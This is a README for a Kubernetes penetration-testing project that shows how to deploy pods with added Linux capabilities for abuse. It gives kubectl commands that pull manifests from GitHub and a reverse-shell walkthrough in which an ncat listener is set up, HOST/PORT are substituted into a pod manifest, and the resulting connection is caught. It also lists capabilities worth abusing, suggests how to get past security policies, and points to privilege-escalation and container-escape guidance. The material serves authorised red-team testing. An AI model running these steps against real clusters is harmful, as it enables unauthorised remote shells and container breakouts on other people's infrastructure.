 # Bad Pod #9: added capabilities

With added [capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html), you can get special privileges and abuse them.

## Table of Contents
- [Bad Pod #9: added capabilities](#bad-pod-9-added-capabilities)
  - [Table of Contents](#table-of-contents)
- [Pod creation \& access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post Exploitation](#post-exploitation)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/caps/pod/caps-exec-pod.yaml
kubectl exec -it caps-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/caps/[RESOURCE_TYPE]/caps-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep caps-exec-[RESOURCE_TYPE]      
kubectl exec -it caps-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe caps-exec-[RESOURCE_TYPE]
```

***In case of creation failure, you can try to remove some capabilities from the `add` line in the yaml file, if catched by any security policy or module.*** *Some interesting capabilities: `CAP_SYS_ADMIN, CAP_SYS_PTRACE, CAP_SYS_MODULE, DAC_READ_SEARCH, DAC_OVERRIDE, CAP_SYS_RAWIO, CAP_SYSLOG, CAP_NET_RAW, CAP_NET_ADMIN`.*

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/caps/[RESOURCE_TYPE]/caps-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/caps/pod/caps-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/caps/pod/caps-exec-pod.yaml
kubectl delete pod caps-exec-pod
kubectl delete cronjob caps-exec-cronjob
```


# Post Exploitation 

Post-exploitation possibilities depends on the added capabilities.

You can print the current capabilities with `cat /proc/$$/status | grep Cap`:

- CapInh = Inherited capabilities
- CapPrm = Permitted capabilities
- CapEff = Effective capabilities
- CapBnd = Bounding set
- CapAmb = Ambient capabilities set

I prefer not to quote existing techniques and I suggest you to use the [**Hacktricks guide about the exploitable Linux capabilities**](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities) which is really good to reach privilege escalation or container escape.